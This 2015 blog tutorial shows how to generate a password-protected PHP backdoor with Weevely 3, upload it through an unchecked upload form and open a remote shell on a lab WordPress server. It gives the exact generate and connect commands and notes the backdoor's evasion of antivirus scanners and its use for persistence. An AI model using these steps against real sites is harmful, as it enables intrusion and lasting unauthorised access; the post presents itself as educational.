 ```yaml
---
author: Mansoor A
date: "2015-03-17T09:05:00Z"
description: ""
draft: false
title: Weevely 3 - The Tiny Yet Dangerous PHP Shell
url: weevely-3-tiny-yet-dangerous-php-she
---
```



> DISCLAIMER: Whatever discussed here is for educational purposes and to protect yourselves from such attacks. I'm in no way responsible for whatever damage you cause to anyone or anything by following the things discussed here.


### Weevely?

Weevely is a php backdoor generator. One of the cool thing ( or should I say troubling thing - from a sysadmin's perspective ) about it is that, it is not detected by most of the malware scanners ( To be honest, I scanned such a shell using virus total, and none of them detected it as a malware )

This is a good thing for a cracker and it is a troubling thing for  a Sysadmin.

#### How does crackers use this backdoor to maintain access?

Here is the thing, you can use this shell to maintain access to an already hacked website, or you can use this to hack a website ( if it provides an option to upload files without checking what exactly is being uploaded ).

The crackers finds a way to upload a shell to your server and then BAM!. They have access to all your files. OR, a cracker hacks your site somehow ( bruteforce, social engineering, or whatever) and upload theses shells to various parts of your website, so that even if you found one of these shell and delete it, they can access your server using another one.


### How about a practical example?
Here, I will show you how it is done. Please note that I am doing this in a locally set up web server, but the principle is same for all the web servers. Also, please do this only on the sites you own, or in those you are allowed to perform such actions.


### The Setup

1. I have an Ubuntu server running on this IP: 192.168.1.102
2. There is WordPress installation, and also an upload form where you can upload files
3. I'm using Backbox Linux as the attacking machine. You can use any Linux machines for this purpose. Kali, Backtrack, Ubuntu, Mint or whatever it is that you're using.

#### Step 1: Installing Weevely 3 on your machine:
```shell
# Make sure that the python package manager and yaml libraries are installed
$ sudo apt-get install g++ python-pip libyaml-dev python-dev
# Install requirements
$ sudo pip install prettytable Mako pyaml dateutils --upgrade
```

Now, download  weevely 3 from <a href="https://github.com/epinna/weevely3/archive/master.zip" target="_blank">HERE</a><br /> You can find more information about Weevely 3 from the github page: <a href="https://github.com/epinna/weevely3" target="_blank">HERE</a>


We are all set. Now, unzip the package and open the terminal and change directory to the weevely3 directory.
If you are too lazy to do all that, copy and paste the following command in your terminal.


```shell
wget https://github.com/epinna/weevely3/archive/master.zip
unzip master.zip
cd weevely3-master
```



#### Step 2: Creating the backdoor
If you do an "ls" command inside the weevely directory, you could see all the files, and weevely.py is the python script that we will be executing

This is how you create a backdoor:


```shell
# This will show you all the options you got
$ ./weevely.py

# The following command will generate a backdoor 
$ ./weevely.py generate password backdoor.php

# The above command will create a backdoor named "backdoor.php" with a password "password"
```


Now we have our backdoor. The next step is to upload it to the web server.


#### Step 3: Getting things done - Uploading to the server

For this to work, you need a place where you can upload any files ( since you are testing it in your own workstation, that shouldn't be  a problem. 😉 )


 ![Php uploader](https://cdn.esc.sh/jekyll/posts/weevely/php_uploader.jpg)

Here, check it out. I have an upload form and I have uploaded the generated backdoor ( shell.php ) to the server using this upload form.

#### Step 4: Accessing the shell

Now we have a backdoor in a server. We need to access it right?

```shell
# This is how you access the uploaded shell
$ ./weevely http://the-website.tld/path/to/the/backdoor.php password

# of course you will have to replace the path with the actual path to the uploaded shell,
# and you have to provide the password you previously set when created the shell.

# So, In my example, I will access the shell using the following command

$ ./weevely http://192.168.1.102/wordpress/hackme/shell.php noob

# where "noob" is my password and 192.168.1.102/wordpress/hackme/shell.php is the
# location of the shell in the server.
```


As soon as you issue the above command, you will get access to a shell in the server.


 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell.jpg)


Type any command like "ls" and you can see that you are using the shell in the server. But, hey, remember one thing, you got a shell in the server, but you are not root ( yet ). You don't have administrative privileges, but you can manipulate the contents in the document root of apache, which is pretty nice.

 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell_1.jpg)


So, this is it. Hope you guys enjoyed this post. Keep one thing in mind, please don't do any of these on anything that you do not own. Thank you.!

